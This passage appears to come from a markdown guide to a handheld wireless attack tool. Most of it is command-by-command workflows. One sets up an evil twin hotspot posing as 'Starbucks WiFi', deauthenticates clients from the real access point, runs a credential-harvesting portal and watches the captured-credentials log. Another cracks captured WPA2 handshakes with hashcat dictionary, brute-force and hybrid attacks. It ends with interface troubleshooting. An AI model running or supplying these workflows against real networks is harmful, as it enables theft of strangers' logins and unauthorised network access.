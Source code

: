 ### Workflow 3: Evil Twin + Credential Harvest

```bash
# 1. Configure fake AP
bh set AP_SSID "Starbucks WiFi"  # Match target name

# 2. Disconnect clients from real AP (force them to yours)
bh deauth_all <REAL_AP_MAC> wlan1

# 3. Start evil portal
bh evil_portal

# 4. Monitor captured credentials
tail -f /var/log/evil_portal.log  # Adjust path based on actual log location

# 5. Cleanup
bh evil_portal stop
```

### Workflow 4: WPA2 Cracking (PC-side)

```bash
# After transferring handshake from Flipper:

# Convert for hashcat
hcxpcapngtool -o handshake.hc22000 handshake-01.cap

# GPU cracking
hashcat -m 22000 -a 0 handshake.hc22000 rockyou.txt           # Dictionary
hashcat -m 22000 -a 3 handshake.hc22000 ?a?a?a?a?a?a?a?a      # Brute force
hashcat -m 22000 -a 6 handshake.hc22000 wordlist.txt ?d?d     # Hybrid

# Optimize
hashcat -m 22000 -a 0 -w 4 -O handshake.hc22000 rockyou.txt
```

## Troubleshooting Patterns

### Interface Issues

**Problem**: "Failed to set monitor mode" or "Device busy"

**Solution**:
```bash
# Kill interfering processes
killall wpa_supplicant dhclient NetworkManager

# Hard reset interface
ip link set wlan1 down
iw dev wlan1 set type managed
ip link set wlan1 up
sleep 1
iw dev wlan1 set type monitor
ip link set wlan1 up

# Verify
iw dev wlan1 info
```
